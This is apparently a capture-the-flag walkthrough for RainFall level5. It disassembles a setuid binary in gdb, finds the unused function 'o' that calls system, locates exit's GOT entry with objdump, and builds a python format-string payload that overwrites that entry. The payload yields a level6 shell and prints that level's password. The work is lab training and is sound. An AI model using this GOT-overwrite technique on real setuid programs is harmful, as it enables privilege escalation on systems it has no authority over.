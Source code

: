 # level5 walkthrough
Given setuid binary, lets disassemble it:

    (gdb) disass main
    Dump of assembler code for function main:
    0x08048504 <+0>:	push   ebp
    0x08048505 <+1>:	mov    ebp,esp
    0x08048507 <+3>:	and    esp,0xfffffff0
    0x0804850a <+6>:	call   0x80484c2 <n>
    0x0804850f <+11>:	leave
    0x08048510 <+12>:	ret
    End of assembler dump.

There is just an "n" function call, lets disassemble it: 

    (gdb) disass n
    Dump of assembler code for function n:
    0x080484c2 <+0>:	push   ebp
    0x080484c3 <+1>:	mov    ebp,esp
    0x080484c5 <+3>:	sub    esp,0x218
    0x080484cb <+9>:	mov    eax,ds:0x8049848
    0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x080484dc <+26>:	lea    eax,[ebp-0x208]
    0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
    0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
    0x080484ea <+40>:	lea    eax,[ebp-0x208]
    0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
    0x080484f3 <+49>:	call   0x8048380 <printf@plt>
    0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
    0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.

"n" function  is similar to the previous two levels with one difference, there is no conditional jump on exploit and it exists after printf.
There is no point in changing "n" function return address because it calls exit at the end and never returns.
We need to change the exit address on exploit address inside GOT.
The GOT (Global Offset Table) is a table of addresses in the data section, it contains the shared library functions addresses.
Also GOT is writable and whenever the function exit() is called (GOT entry of the function is looked up first) the program will jump to that address.
But first we need to have exploit address to overwrite with.
Lets try to find if there is any exploit contained inside this binary:

    (gdb) info functions
    All defined functions:

    Non-debugging symbols:
    0x08048334  _init
    0x08048380  printf
    0x08048380  printf@plt
    0x08048390  _exit
    0x08048390  _exit@plt
    0x080483a0  fgets
    0x080483a0  fgets@plt
    0x080483b0  system
    0x080483b0  system@plt
    0x080483c0  __gmon_start__
    0x080483c0  __gmon_start__@plt
    0x080483d0  exit
    0x080483d0  exit@plt
    0x080483e0  __libc_start_main
    0x080483e0  __libc_start_main@plt
    0x080483f0  _start
    0x08048420  __do_global_dtors_aux
    0x08048480  frame_dummy
    0x080484a4  o
    0x080484c2  n
    0x08048504  main
    0x08048520  __libc_csu_init
    0x08048590  __libc_csu_fini
    0x08048592  __i686.get_pc_thunk.bx
    0x080485a0  __do_global_ctors_aux
    0x080485cc  _fini

There is not used "o" function, lets take a look at it:

    (gdb) disass o
    Dump of assembler code for function o:
    0x080484a4 <+0>:	push   ebp
    0x080484a5 <+1>:	mov    ebp,esp
    0x080484a7 <+3>:	sub    esp,0x18
    0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
    0x080484b1 <+13>:	call   0x80483b0 <system@plt>
    0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
    0x080484bd <+25>:	call   0x8048390 <_exit@plt>
    End of assembler dump.

Great, we found the code which we can exploit, exit function address in GOT should point to the "o" function.
Lets find exit function address inside GOT, we can use objdump tool with -R flag (display dynamic relocation entries):
    level5@RainFall:~$ objdump -R ./level5

    ./level5:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE
    08049814 R_386_GLOB_DAT    __gmon_start__
    08049848 R_386_COPY        stdin
    08049824 R_386_JUMP_SLOT   printf
    08049828 R_386_JUMP_SLOT   _exit
    0804982c R_386_JUMP_SLOT   fgets
    08049830 R_386_JUMP_SLOT   system
    08049834 R_386_JUMP_SLOT   __gmon_start__
    08049838 R_386_JUMP_SLOT   exit
    0804983c R_386_JUMP_SLOT   __libc_start_main

exit function GOT entree is 38980408 (converted to little endian).

Lets find offset from stack to our buffer:

    level5@RainFall:~$ ./level5
    AAAA %p %p %p %p %p
    AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520

"o" finction address is 134513824 in decimal (sub 4 because of the exit function address being printed).
Now we need to pass exit function address instead of "AAAA" and overwrite with "o" function address using already known technique:

    level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/level5/exploit
    level5@RainFall:~$ cat /tmp/level5/exploit - | ./level5
    whoami
    level6
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
